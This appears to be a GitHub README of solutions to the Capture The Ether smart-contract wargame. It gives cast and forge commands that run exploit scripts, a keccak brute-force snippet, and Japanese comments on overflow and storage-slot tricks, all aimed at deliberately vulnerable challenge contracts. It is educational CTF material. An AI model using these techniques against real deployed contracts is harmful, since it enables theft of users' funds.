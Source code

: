 # Capture The Ether

NOTE: [Capture The Ether](https://capturetheether.com/) was deployed in the Ropsten network, but the network is currently deprecated.

**Challenges**
- [Warmup](#warmup)
  - [Deploy a contract](#deploy-a-contract)
  - [Call me](#call-me)
  - [Choose a nickname](#choose-a-nickname)
- [Lotteries](#lotteries)
  - [Guess the number](#guess-the-number)
  - [Guess the secret number](#guess-the-secret-number)
  - [Guess the random number](#guess-the-random-number)
  - [Guess the new number](#guess-the-new-number)
  - [Predict the future](#predict-the-future)
  - [Predict the block hash](#predict-the-block-hash)
- [Math](#math)
  - [Token sale](#token-sale)
  - [Token whale](#token-whale)
  - [Retirement fund](#retirement-fund)
  - [Mapping](#mapping)
  - [Donation](#donation)
  - [Fifty years](#fifty-years)
- [Accounts](#accounts)
  - [Fuzzy identity](#fuzzy-identity)
  - [Public key](#public-key)
- [Miscellaneous](#miscellaneous)
  - [Assume ownership](#assume-ownership)
  - [Token bank](#token-bank)

## Warmup

### Deploy a contract
Just send a transaction via Metamask.

### Call me
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "callme()"
```

### Choose a nickname
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "setNickname(bytes32)" $(cast --to-bytes32 1)
```

## Lotteries

### Guess the number
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "guess(uint8)" 42 --value 1ether
```

### Guess the secret number
```py
import sha3

for i in range(1 << 8):
    k = sha3.keccak_256()
    k.update(bytes([i]))
    if k.hexdigest() == "db81b4d58595fbbbb592d3661a34cdca14d7ab379441400cbfa1b78bc447c365":
        print(i)
        break
```
Result: `170`

```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "guess(uint8)" 170 --value 1ether
```

### Guess the random number
```
$ cast storage $INSTANCE_ADDRESS 0
0x0000000000000000000000000000000000000000000000000000000000000066
```

```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "guess(uint8)" 0x66 --value 1ether
```

### Guess the new number
```
forge script src/CaptureTheEther/GuessTheNewNumber/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Predict the future
```
forge test --match-path src/CaptureTheEther/PredictTheFuture/Exploit.t.sol
```

### Predict the block hash
```
forge test --match-path src/CaptureTheEther/PredictTheBlockHash/Exploit.t.sol
```

## Math

### Token sale
```
forge script src/CaptureTheEther/TokenSale/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Token whale
```
forge script src/CaptureTheEther/TokenWhale/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Retirement fund
```
forge script src/CaptureTheEther/RetirementFund/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Mapping
```
forge script src/CaptureTheEther/Mapping/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Donation
```
forge test --match-path src/CaptureTheEther/Donation/Exploit.t.sol
```

### Fifty years
<!--
- withdraw関数で引き出したい
- ownerはプレイヤー
- upsert関数のelseにおいて、contribution変数が定義されていないのにもかかわらず使えてしまう
- unlockTimestamp + 1 daysでオーバーフローを起こせる
- SSTOREでslot 0がmsg.valueに書き換え
  - slot 0はqueueの要素数が格納されている
  - msg.valueを1にする
- 配列の長さであるslot 0をインクリメントしてからpushを行うため、amountが+1される
-->
```
forge test --match-path src/CaptureTheEther/FiftyYears/Exploit.t.sol
```

## Accounts

### Fuzzy identity
<!--
- CREATE2でデプロイされるアドレスを全探索すればよい
- 2^28なので1分もかからない
-->
```
forge test --match-path src/CaptureTheEther/FuzzyIdentity/Exploit.t.sol
```

### Public key
```
forge test --match-path src/CaptureTheEther/PublicKey/Exploit.t.sol
```

## Miscellaneous

### Assume ownership
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "AssumeOwmershipChallenge()" 
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "authenticate()"
```

### Token bank
```
forge script src/CaptureTheEther/TokenBank/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

